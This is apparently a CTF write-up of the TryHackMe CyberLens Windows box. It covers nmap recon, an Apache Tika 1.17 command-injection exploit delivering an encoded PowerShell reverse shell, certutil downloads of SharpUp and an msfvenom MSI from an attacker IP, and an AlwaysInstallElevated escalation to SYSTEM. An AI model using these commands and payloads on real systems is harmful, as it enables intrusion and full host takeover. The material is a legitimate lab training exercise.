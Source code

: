 ## RECON 
>Open ports indicate we have a windows host :-
```bash
PORT      STATE SERVICE       VERSION
80/tcp    open  http?
|_http-title: CyberLens: Unveiling the Hidden Matrix
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=CyberLens
| Issuer: commonName=CyberLens
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-06T11:12:33
| Not valid after:  2024-12-06T11:12:33
| MD5:   a74e:32db:03c5:dd03:735d:8ab6:ade9:6e63
|_SHA-1: 6290:9426:34ab:f033:c7af:4cc8:c158:ca2c:9c92:9f77
| rdp-ntlm-info:
|   Target_Name: CYBERLENS
|   NetBIOS_Domain_Name: CYBERLENS
|   NetBIOS_Computer_Name: CYBERLENS
|   DNS_Domain_Name: CyberLens
|   DNS_Computer_Name: CyberLens
|   Product_Version: 10.0.17763
|_  System_Time: 2024-06-07T11:28:06+00:00
|_ssl-date: 2024-06-07T11:29:34+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2024-06-07T11:28:05
|_  start_date: N/A
```
Not a domain joined object from the scans so its just a standalone box. 
## SMB RECON
No readable shares | no writable shares | no null sessions | no guest sessions.

## HTTP RECON
Already aware of a vhost FQDN from the room about : `cyberlens.thm` so add that to hosts file, nothing but some form of image metadata scanner, assessing the source code reveals a JS script with a function that passes the uploaded file to another service running on port 61777 at the `/meta` endpoint
```js
 fetch("http://cyberlens.thm:61777/meta", {
            method: "PUT",
            body: fileData,
            headers: {
              "Accept": "application/json",
              "Content-Type": "application/octet-stream"
            }
          })
          .then(response => {
            if (response.ok) {
              return response.json();
            } else {
              throw new Error("Error: " + response.status);
            }
```
initially I spent a little time playing around if I could fix in code into an image metadata with exiftool and upload to get RCE but that didn't work out.

## 61777 RECON
The landing page of this site leaks the service and its version number, searchsploit and dorking github for an exploit reveals an exploit for this version of Apache Tika 1.17 with a command injection vulnerability in its header.

Wasted alot of time manually trying to exploit this and setting the headers it didn't feel worth the stress lol so using the python exploit from exploitdb rather than using msf cause msf reduces steeze :-
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ ss 'tika 1.17'
--------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                     |  Path
--------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tika 1.15 - 1.17 - Header Command Injection (Metasploit)                                    | windows/remote/47208.rb
Apache Tika-server < 1.18 - Command Injection                                                      | windows/remote/46540.py
--------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

>Send reverse shell with the exploit and powershell b64 encoded payload :-
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ python2 tika.py cyberlens.thm 61777 "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AOQAuADIAMAAzAC4AMQA3ADAAIgAsADEAMwAzADcAKQ<SNIP>"
```

# FOOTHOLD
>We in :-
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ rlwrap -cAr ncat -nvlp 1337
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.99.115:49771.

PS C:\Windows\system32> (Get-PSReadLineOption).HistorySavePath

C:\Users\CyberLens\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
PS C:\Windows\system32> PS C:\Windows\system32> type C:\Users\CyberLens\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

gpudpate /force
gpupdate /force
PS C:\Windows\system32> PS C:\Windows\system32> gc (Get-PSReadLineOption).HistorySavePath
gpudpate /force
gpupdate /force
PS C:\Windows\system32> cd \users\cyberlens\appdata\local\temp
PS C:\users\cyberlens\appdata\local\temp> certutil -urlcache -split -f http://10.9.203.170/SharpUp.exe
```

Running checks with SharpUp and we have an oldie privesc bug `AlwaysInstallElevated` enabled in the registry keys that allows msi binaries to be executed as admin :-
```bash
PS C:\users\cyberlens\appdata\local\temp> .\SharpUp.exe audit

=== SharpUp: Running Privilege Escalation Checks ===
[!] Modifialbe scheduled tasks were not evaluated due to permissions.
Registry AutoLogon Found

=== Always Install Elevated ===
        HKCU: 1
        HKLM: 1
```
>Exploit by generating an msi package with msfvenom :-
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.9.203.170 LPORT=1338 -f msi -o aie.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of msi file: 159744 bytes
Saved as: aie.msi
```

>Verify the registry keys are set to 1 and its not a false positive from SharpUp and send the msi package over :-
```bash
PS C:\users\cyberlens\appdata\local\temp> reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

PS C:\users\cyberlens\appdata\local\temp> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer


HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
    DisableMSI    REG_DWORD    0x0

PS C:\users\cyberlens\appdata\local\temp> PS C:\users\cyberlens\appdata\local\temp> certutil -urlcache -split -f http://10.9.203.170/aie.msi
****  Online  ****
  000000  ...
  027000
CertUtil: -URLCache command completed successfully.
```

# ROOT
Trigger the binary with `msiexec` :-
```bash
PS C:\users\cyberlens\appdata\local\temp> msiexec /i .\aie.msi /quiet /qn /norestart
PS C:\users\cyberlens\appdata\local\temp> msiexec /i C:\users\cyberlens\appdata\local\temp\aie.msi /quiet /qn /norestart
```
and we root : 
```bash
┌──(rami㉿zen)-[~/labs/thm/cyberlens]
└─$ rlwrap -cAr ncat -nvlp 1338
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
Ncat: Listening on [::]:1338
Ncat: Listening on 0.0.0.0:1338
Ncat: Connection from 10.10.99.115:49812.
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd \users\administrator\desktop
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A8A4-C362

 Directory of C:\Users\Administrator\Desktop

06/06/2023  07:45 PM    <DIR>          .
06/06/2023  07:45 PM    <DIR>          ..
11/27/2023  07:50 PM                24 admin.txt
06/21/2016  03:36 PM               527 EC2 Feedback.website
06/21/2016  03:36 PM               554 EC2 Microsoft Windows Guide.website
               3 File(s)          1,105 bytes
               2 Dir(s)  14,939,779,072 bytes free
```
